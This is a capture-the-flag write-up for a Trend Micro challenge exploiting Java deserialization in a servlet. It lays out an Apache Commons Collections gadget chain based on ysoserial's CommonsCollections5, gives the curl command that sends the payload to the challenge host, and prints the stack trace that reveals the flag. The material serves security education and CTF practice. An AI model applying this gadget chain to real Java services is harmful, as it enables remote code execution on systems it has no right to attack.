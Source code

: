 # Misc 300

The flag marshal has falsely imprisoned a flag for being a deserial killer. Your mission is simple, break the flag out of the marshal's jail (http://theflagmarshal.us-east-1.elasticbeanstalk.com/). In addition to the bad puns, you seem to have stumbled upon another clue, blueprint.war.

# Analysis

You are given a Java servlet that receives data sent via POST request, deserializes it and converts to a Person object. However, sending the data normally won't get you the flag. You need to find a way around that to get the flag (from the Flag class)

After decompiling the classes and inspecting them, here are the bits of information you need to solve the challenge:
* If there is an error in deserialization, the exception is thrown back to the client
* Flag can be retrieved by an exception thrown from Flag.getFlag().
* So the goal is to send a payload that invokes Flag.getFlag() when deserialized. This is not a simple task.
* To make things tougher for everyone, CustomOIS has been designed to only accept some certain classes in the invocation chain (see [CustomOIS.java](CustomOIS.java))

# Solution

Deserialization vulnerabilities have been used a lot recently in CTFs, however they are mostly in Python (probably due to the fact that many players use Python nowadays). That doesn't mean Java vulnerabilities have not been researched. In fact, there have been many publications about them:
* [OWASP - Deserialization of untrusted data](https://www.owasp.org/index.php/Deserialization_of_untrusted_data)
* [What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)
* [Blind Java Deserialization Vulnerability - Commons Gadgets](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)
* [ysoserial - A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.](https://github.com/frohoff/ysoserial)

Now it's clear what to do. Although the description is a bit misleading, [ysoserial's CommonsCollections5](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java) can be used to build the gadget chain, something like this (the methods might be wrong, you need some debugging to get it right, but it doesn't matter even the chain in ysoserial comments is wrong too and you don't really need to care):

```
ObjectInputStream.readObject()
  BadAttributeValueExpException.toString()
    TiedMapEntry.toString()
      LazyMap.get()
        ChainedTransformer.transform()
        ConstantTransformer.transform()
        InvokerTransformer.transform()
          Method.invoke()
            Class.getMethod()
        InvokerTransformer.transform()
          Method.invoke()
            Flag.getFlag()
```

Full code to generate the payload: [FlagWriter.java](FlagWriter.java)

Now just send the payload to the server and the flag is thrown in exception:
```
C:\ctf_tools\curl-7.61.1-win64-mingw\bin>curl --data-binary @"MyFlag.bin" http://theflagmarshal.us-east-1.elasticbeanstalk.com/jail
org.apache.commons.collections.FunctorException: InvokerTransformer: The method 'invoke' on 'class java.lang.reflect.Method' threw an exception
        at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:132)
        at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)
        at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:151)
        at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
        at org.apache.commons.collections.keyvalue.TiedMapEntry.toString(TiedMapEntry.java:131)
        at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
        at sun.reflect.GeneratedMethodAccessor24.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2177)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2068)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1572)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:430)
        at com.trendmicro.Server.doPost(Server.java:31)
        at javax.servlet.http.HttpServlet.service(HttpServlet.java:661)
        at javax.servlet.http.HttpServlet.service(HttpServlet.java:742)
        at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)
        at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
        at org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:52)
        at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)
        at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
        at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)
        at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)
        at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:493)
        at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)
        at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)
        at org.apache.catalina.valves.RemoteIpValve.invoke(RemoteIpValve.java:685)
        at org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:650)
        at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)
        at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
        at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:800)
        at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
        at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:800)
        at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1471)
        at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
        at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
        at java.lang.Thread.run(Thread.java:748)
Caused by: java.lang.reflect.InvocationTargetException
        at sun.reflect.GeneratedMethodAccessor27.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        at org.apache.commons.collections.functors.InvokerTransformer.transform(InvokerTransformer.java:125)
        ... 39 more
Caused by: java.lang.reflect.InvocationTargetException
        at sun.reflect.GeneratedMethodAccessor26.invoke(Unknown Source)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
        at java.lang.reflect.Method.invoke(Method.java:498)
        ... 43 more
Caused by: java.lang.Exception: TMCTF{15nuck9astTheF1agMarsha12day}
        at com.trendmicro.jail.Flag.getFlag(Flag.java:10)
        ... 46 more
```

**Flag** is **TMCTF{15nuck9astTheF1agMarsha12day}**

